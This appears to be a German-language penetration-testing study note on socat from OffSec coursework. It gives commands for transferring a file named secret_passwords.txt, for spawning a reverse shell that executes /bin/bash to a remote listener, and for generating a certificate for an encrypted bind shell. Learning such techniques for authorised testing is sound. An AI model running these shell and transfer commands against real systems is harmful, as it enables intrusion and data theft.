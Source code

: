 # OffSec - Socat 

## File Transfer

Listener mit #Socat auf dem Host öffnen, um Daten zu empfangen und in eine Datei zu schreiben 

`socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

Auf dem Empfänger folgender Befehl:
`socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`

## Reverseshells

Mit #Socat können auch #Reverseshells eröffnet werden. 

Auf dem Host
```socat -d -d TCP4-LISTEN:443 STDOUT```

Mit dem Angreifer PC folgende #Reverseshell spawnen

```socat TCP4:10.11.0.22:443 EXEC:/bin/bash```

## Socat Encrypted Bind Shells

Mit #Socat können #Ecrypted #BindShells erstellt werden. 
Dazu geht man wie folgt vor:

`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`

-   req: initiate a new certificate signing request
-   -newkey: generate a new private key
-   rsa:2048: use RSA encryption with a 2,048-bit key length.
-   -nodes: store the private key without passphrase protection
-   -keyout: save the key to a file
-   -x509: output a self-signed certificate instead of a certificate request
-   -days: set validity period in days
-   -out: save the certificate to a file

